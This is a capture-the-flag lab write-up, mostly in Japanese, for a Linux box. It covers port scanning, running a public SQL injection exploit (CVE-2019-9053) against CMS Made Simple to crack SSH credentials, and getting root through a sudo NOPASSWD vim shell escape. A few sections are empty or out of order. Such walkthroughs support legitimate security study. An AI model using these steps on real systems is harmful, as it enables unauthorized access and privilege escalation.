

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | 21/tcp   open  ftp, 80/tcp   open  http, 2222/tcp open  ssh |
| 主な侵入経路 | web-enumeration, sqli, credential-cracking |
| 権限昇格経路 | sudo misconfiguration (NOPASSWD vim) |

## 偵察

### 1. PortScan

---
## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (not recorded in PDF)


## Nmap
```bash
nmap -sV -sT -sC $ip
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

補助列挙（Webパス発見）:

```bash
ffuf -w /home/n0z0/SecLists/Discovery/Web-Content/common.txt -u http://$ip/FUZZ
robots.txt
/simple
```

### 2. Local Shell

---

このルームは、`/simple` の CMS Made Simple を起点にSQLiで資格情報を回収し、
SSHで初期シェルを得る流れです。FTP anonymous も有効ですが、本ルートではCMS脆弱性経由を主軸に進めます。

## 2-1. CMSバージョンと既知脆弱性の確認

```
searchsploit cms made simple 2.2
CMS Made Simple < 2.2.10 - SQL Injection | php/webapps/46635.py
```


*Caption: Screenshot captured during simple-ctf attack workflow (step 1).*


## 2-2. SQLi exploit でユーザ/パスワード情報を取得

```bash
python3 46635.py -u http://$ip/simple --crack -w ~/thm/rockyou.txt
CMS Made Simple < 2.2.10 Collect authentication information using SQL Injection
(The original PDF memo only records that the encoding was adjusted and executed due to version differences)
```

## 2-3. SSHでユーザシェル獲得

ssh -p 2222 mitch@$ip
uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)

💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

It was discovered that `mitch` in `sudo -l -l` can run `/usr/bin/vim` as root without a password.
You can transition to the root shell by hitting `:!bash` from the command mode of `vim`.

```bash
id
sudo -l -l
sudo vim test.txt
User mitch may run the following commands on Machine:
RunAsUsers: root
Options: !authenticate
Commands:
    /usr/bin/vim
```

Run in `vim`:

```
:!bash
id
uid=0(root) gid=0(root) groups=0(root)
```

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
SSH user: mitch
SSH password: recovered via CMS SQLi exploit (password string not explicitly recorded in source PDF)
```

## まとめ・学んだこと

### 4.Overview

---



### CVE Notes

- **CVE-2019-9053**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.

## 参考文献

- nmap
- rustscan
- ffuf
- sudo
- ssh
- php
- CVE-2019-9053
- GTFOBins
